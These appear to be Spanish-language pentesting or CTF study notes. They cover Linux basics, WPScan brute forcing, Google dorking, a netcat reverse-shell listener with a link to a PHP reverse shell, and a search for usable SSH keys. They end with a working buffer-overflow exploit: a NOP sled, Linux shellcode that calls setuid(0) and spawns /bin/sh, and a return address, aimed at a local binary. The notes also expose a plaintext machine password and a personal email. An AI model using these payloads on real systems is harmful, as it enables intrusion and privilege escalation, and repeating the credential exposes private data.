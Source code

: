 buscar en man on "/keyword", ir adelante on N y hacia atras con SUPR-N
chown cambia proprietario de un fichero

## VIM
:wq write qui
:q! quit and force

## XARGAS
ejecuta algo como argumento final un output

## ALIAS
alias loqueyoquiera="ls"    cerrando la sessión pierdes el alias
para hacerlo fijo meter en /.bashrc el alias


## WPscan
utilzado para sacar información sobre los usuarios que se utilizan en la pagina basada en wordpress
también se usa como brute-force para paginas web basadas en wordpress

## Google dorking
buscador más profundo de información
site: sitio "keywoards"

## Netcad
Utilizado para abrir puertos en la maquina a utilizar como reverse shell
netcad -nvlp "puerto puesto" https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


## SSH
es posible utilizar la llave RSA para poder entrar con ssh utilizando el flag -i

buscar en un directorio llaves RSA existentes y utilizables:
find. -type f- -exec sh -c 'echo "Analizando archivo: $1"; ssh-keygen -l -f $1' _ {} \;


contraseña maquina wido T4ll3r_H4ck1nG_2024!
correo para el premio: sermomo3@alumni.uv.es

run $(python2 -c 'print "A"*88')


run $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')


/home/wido/pruebas_seguridad/script $(python2 -c 'print "\x90"*35+"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x64\xf4\xff\xbf"')